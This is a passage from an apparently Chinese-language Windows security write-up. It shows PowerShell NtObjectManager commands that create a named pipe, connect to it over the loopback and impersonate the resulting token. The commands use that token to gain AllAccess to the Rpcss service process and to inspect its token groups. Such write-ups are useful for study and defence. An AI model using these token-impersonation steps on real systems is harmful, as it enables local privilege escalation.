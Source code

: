 ```plain
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

这次我们模拟命名管道然后再次去请求 Rpcss 服务。这里需要注意的一点是，如果 $p 部分按照文章中的分段进行输入，那么需要在核心模式下运行，也就是需要将命令写入一个 ps1 文件然后执行。如果不想创建一个 ps1 文件，那么可以将命令写为一行。具体命令如下。

```plain
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

此时我们可以看到，通过 `Impersonate（）`进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限，结果为 AllAccess。执行结果如图26所示。

![](assets/1706773615-0ea33ad37c8ae8128968cb7109248188.jpg)

图26 获取相关权限

我们可以通过查看令牌的组列表来验证我们前面所说的 Lsass 保存的是登录会话创建的第一个令牌 （因为 Rpcss 是第一个以 Network Service 运行的服务）。查看令牌的组列表命令如下。

```plain
$token = Use-NtObject（$pipe.Impersonate（））{
    Get-NtToken -Impersonation
}
$token.Groups | ? Name -Match Rpcss
```

可以看到 Rpcss 已在其中。令牌的组列表如图27所示。

![](assets/1706773615-35978a01f4ff11632dcca129da7a480d.jpg)
